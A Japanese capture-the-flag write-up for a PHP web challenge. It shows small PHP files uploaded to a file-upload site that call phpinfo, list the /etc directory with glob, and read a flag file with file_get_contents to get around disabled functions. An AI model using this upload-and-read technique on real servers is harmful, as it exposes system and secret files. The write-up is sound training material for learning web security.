

# WTF PHP:Web:269pts
```
Your php function didnt work? maybe some info will help you xD 
PS: Flag is somewhere in /etc
Note: This chall does not require any brute forcing
```
[Link](http://wtf-php.darkarmy.xyz/)  

# Solution
アクセスするとファイルをアップロードでき、それを閲覧できるサイトのようだ。  
index.php  
[site1.png](site/site1.png)  
phpが設置できるので、`system`を呼べばよいのだが動作しない。  
infoに助けがあると問題文にあるので、以下のinfo.phpで`phpinfo`を呼び出す。  
```php:info.php
<?php
echo "info.php";
phpinfo();
?>
```
disable_functionsを見る。  
  
任意コード実行できるものが軒並み使用不可となっている。  
しかし、`glob`や`file_get_contents`は使用できる。  
以下のglob.phpで問題文で指定されている/etc内をすべて見る。  
```php:glob.php
<?php
echo "glob.php";
print_r(glob("/etc/*"));
?>
```
glob.php  
[site2.png](site/site2.png)  
`/etc/f1@g.txt`なる怪しいファイルがあるようだ。  
以下のfgetcont.phpで読み込む。  
```php:fgetcont.php
<?php
echo "fgetcont.php";
echo file_get_contents("/etc/f1@g.txt");
?>
```
fgetcont.php  
[flag.png](site/flag.png)  
flagが書かれていた。  

## darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}